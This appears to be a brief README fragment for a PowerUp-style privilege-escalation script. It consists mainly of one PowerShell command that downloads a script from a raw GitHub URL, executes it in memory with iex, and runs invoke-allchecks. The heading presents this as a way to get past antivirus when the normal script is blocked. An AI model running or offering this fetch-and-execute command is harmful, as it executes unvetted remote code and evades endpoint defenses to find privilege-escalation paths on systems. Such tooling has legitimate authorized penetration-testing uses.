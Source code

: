 ## Sometimes AV will block the normal script, just try this command
### Run command
```
iex(new-object net.webclient).downloadstring("https://raw.githubusercontent.com/f3ci/powerup/master/1.ps1"); invoke-allchecks
```
